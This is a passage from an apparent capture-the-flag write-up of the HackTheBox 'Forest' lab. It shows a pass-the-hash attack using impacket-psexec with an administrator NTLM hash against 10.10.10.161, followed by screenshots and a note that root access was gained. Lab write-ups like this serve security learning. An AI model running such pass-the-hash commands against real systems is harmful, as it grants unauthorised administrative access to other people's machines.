 ### **Pass The Hash with `PsExec`**

We use the **`PsExec`** tool to perform our PtH attack, we can thus see the `SMB2` exchange with wireshark during the connection.
 
 ```bash
 impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
 ```
 
 ![Untitled](/src/img/forest/Untitled%2026.png)
 
 ![Untitled](/src/img/forest/Untitled%2027.png)

And here we are root!
Having already a user on the server with permissions and the hash of the administrator an interesting access maintenance would be too long to set up so I would be satisfied with this one.
